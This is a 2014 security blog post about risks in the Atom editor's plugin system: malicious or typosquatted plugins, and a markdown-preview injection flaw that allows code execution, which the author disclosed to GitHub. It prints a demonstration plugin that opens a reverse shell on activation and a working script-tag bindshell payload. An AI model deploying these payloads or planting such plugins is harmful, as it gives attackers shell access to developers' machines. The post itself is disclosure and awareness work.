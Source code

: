 ```yaml
---
date: 2014-03-02 00:04:34 GMT
slug: of-atom.io-and-security
tags: security, atom.io, nodesecurity, node.js, apm, npm
title: of atom.io and security
type: text
---
```


Like many of you, I recently received an invite to atom.io, GitHub's new text editor.

Atom embraces everything that I love about node.js: easy creation, hackability, distribution, and installation of small modules. 

It also brings with it some of the same types of security concerns.

Shortly after downloading and playing with the app I posted this in [andbang](http://andbang.com) (our team collaboration tool):

"my first atom.io plugin, am I doing it right?"
```
var shells = require('node-shells');
module.exports.activate = function () {
    shells.reverseShell('canary.local', '1234');
}
```

Shortly after, my coworker Stephanie said to me: "You just can't help but hack all the things, can you?" 

No. No, I can't.

That's a simple plugin that when you install it it makes a connection back to my computer. 
Now, no sane developer would install that knowing what it does, but be honest: an attacker is not going to be that obvious and no matter how big our egos are, we all know we make stupid mistakes.

## Every strength comes with a weakness
Atom is designed for hackabililty, to run plugins and code written by you and the greater development community.

My concerns are the unintended side effects of having plain text and code executing in an environment that's a central tool for our day-to-day workflow.

Securing common developer endpoints is hard enough on its own. 

Now we have to verify the security of each module installed in our developers' text editor for seemingly benign things like syntax highlighting, coding efficiency or collaboration, or any number of awesome inventions the dev community dreams up.

## apm brings with it security concerns from npm
I did some research a while back on npm typos: packages a developer attempted to install, but couldn't because they got the name wrong.

Turns out we are measurably bad at punctuation when remembering package / module names.

The modules most commonly typed wrong were the ones with punctuation in them: "socketio" vs. "socket.io", "coffeescript" vs. "coffee-script", and so on.

This is going to happen with apm.

Malicious plugins will be created, they'll squat on commonly typo'd names, and it will be a problem.
It will be a pain in the ass to police as well. The same problem exists within npm, where we rely on the community to police it at the moment. 

It took the community a week to ask me to take down my fake "coffeescript" module that was blank. Had it replicated the functionality of a working module, I imagine it would still be up there today.

## This isn't your grandmothers DOM.
The next issue I see is that getting content injection within the atom.io editor means code execution with all the awesome power of node.js.

According to their [security page](https://github.com/rogerwang/node-webkit/wiki/Security), node-webkit has 2 frame types: Node frames and normal frames. It's the Node frame that gives us the extended power of node.

I was able to exploit this just hours after the release using the built-in markdown preview plugin (the one that's mentioned in the welcome text).

A month ago I published an [advisory for marked](https://nodesecurity.io/advisories/marked_multiple_content_injection_vulnerabilities), a popular module for parsing markdown. 

Turns out the markdown-preview plugin was using the rooster module that included a vulnerable version of marked. 

Small modules are nice, but everyone in the chain has to do their part to make sure things are secure and up to date.

I disclosed this vulnerability to GitHub and, as of atom 0.62.0, the included markdown-preview plugin appears to be fixed.

Here was the exploit for a quick bindshell:

    ```<script>net=require('net');cp=require('child_process');server=net.createServer(function(c){sh=cp.spawn('sh',['-i']);c.pipe(sh.stdin);sh.stdout.pipe(c);});server.listen(1337);</script>
    this is a test
    ```

I want to make it very clear that I love the editor and am in no way casting it aside just because of a few security concerns. (I don't tend to think of security as something that should hold back developers from building amazing and useful things, but rather, an essential component of that creativity.)

However, it does make me pause and think about the mounting concerns with securing developer endpoints that I'm not sure the answers are keeping up with.

## This is what the Node Security Project is about

atom.io reinvigorates our team's belief in why we started the Node Security Project.

Our only chance to rise above the bad guys is to approach leveling up the security of the entire community in a highly distributed way. It's the only way we'll be able to handle security in this new era of massive modularity and code reuse.

We have some big plans for Node Security Project for 2014 and we'd love to have your help as we begin to roll those out in the coming months.

Give us a follow on twitter for project updates. [@nodesecurity](https://twitter.com/nodesecurity)

